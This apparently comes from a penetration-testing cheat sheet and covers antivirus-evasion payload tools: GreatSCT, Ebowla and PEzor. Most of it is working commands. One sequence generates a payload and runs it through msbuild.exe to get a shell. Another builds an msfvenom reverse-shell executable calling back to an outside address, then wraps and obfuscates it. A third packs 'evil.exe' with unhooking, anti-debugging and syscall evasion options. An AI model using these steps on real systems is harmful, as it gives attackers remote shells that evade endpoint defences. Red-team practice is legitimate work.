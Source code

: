 ### GreatSCT

* [https://github.com/GreatSCT/GreatSCT](https://github.com/GreatSCT/GreatSCT)

{% embed url="https://youtu.be/krC5j1Ab44I?t=3730" %}

Install and generate a payload:

```
$ git clone https://github.com/GreatSCT/GreatSCT ~/tools/GreatSCT
$ cd ~/tools/GreatSCT/setup
$ ./setup.sh
$ cd .. && ./GreatSCT.py
...generate a payload...
$ ls -la /usr/share/greatsct-output/handlers/payload.{rc,xml}

$ msfconsole -r /usr/share/greatsct-output/handlers/payload.rc
```

Exec with `msbuild.exe` and get a shell:

```
PS > cmd /c C:\Windows\Microsoft.NET\framework\v4.0.30319\msbuild.exe payload.xml
```



### Ebowla

```
$ git clone https://github.com/Genetic-Malware/Ebowla ~/tools/Ebowla && cd ~/tools/Ebowla
$ sudo apt install golang mingw-w64 wine python-dev -y
$ sudo python -m pip install configobj pyparsing pycrypto pyinstaller
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.13.37 LPORT=1337 --platform win -f exe -a x64 -o rev.exe
$ vi genetic.config
...Edit output_type, payload_type, clean_output, [[ENV_VAR]]...
$ python ebowla.py rev.exe genetic.config && rm rev.exe
$ ./build_x64_go.sh output/go_symmetric_rev.exe.go ebowla-rev.exe [--hidden] && rm output/go_symmetric_rev.exe.go
[+] output/ebowla-rev.exe
```



### PEzor

* [https://github.com/phra/PEzor](https://github.com/phra/PEzor)

Wrap executable into PEzor:

```
$ bash PEzor.sh -sgn -unhook -antidebug -text -syscalls -sleep=10 evil.exe -z 2
```



### inceptor
